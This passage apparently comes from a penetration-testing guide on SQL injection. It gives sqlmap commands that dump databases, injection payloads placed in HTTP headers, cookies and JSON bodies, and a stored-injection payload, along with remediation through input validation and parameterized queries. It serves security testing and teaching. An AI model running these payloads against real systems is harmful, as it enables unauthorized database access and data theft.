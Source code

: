    - Use:
     ```bash
     sqlmap -u "http://example.com/page?id=1" --dbs --tables --columns --dump
     ```
5. Save output:
   - Use:
     ```bash
     sqlmap -u "http://example.com/page?id=1" --output-dir=/tmp/sqlmap_output
     ```

**Example Vulnerable Endpoint**:
- `POST /api/login` with `{"username":"admin"}`
Test: `sqlmap -u "http://example.com/api/login" --data='{"username":"admin"}' --dump`
Result: Dumps users table.

**Remediation**:
- Validate inputs:
  ```python
  if not request.json['username'].isalnum(): raise ValueError
  ```
- Use parameterized queries:
  ```python
  cursor.execute("SELECT * FROM users WHERE username = %s", (username,))
  ```

**Tip**: Save SQLMap logs in a report.

### 5. Test for Non-Classic SQL Injection Vectors

**Objective**: Check headers, cookies, and APIs for SQL injection.

**Steps**:
1. Inject into headers:
   - Use Burp:
     ```http
     GET /page HTTP/1.1
     Host: example.com
     User-Agent: ' OR '1'='1
     ```
2. Inject into cookies:
   - Use:
     ```http
     GET /page HTTP/1.1
     Host: example.com
     Cookie: session=1' OR '1'='1
     ```
3. Test JSON/XML APIs:
   - Use Postman:
     ```json
     POST /api/search
     Content-Type: application/json
     {"query":"1' OR '1'='1"}
     ```
4. Test mobile app traffic:
   - Intercept with Burp:
     ```bash
     adb connect <device_ip>
     ```
     Configure proxy and test APIs.
5. Test stored injection:
   - Submit: `' OR 1=1; INSERT INTO logs (data) VALUES ('malicious') --`.
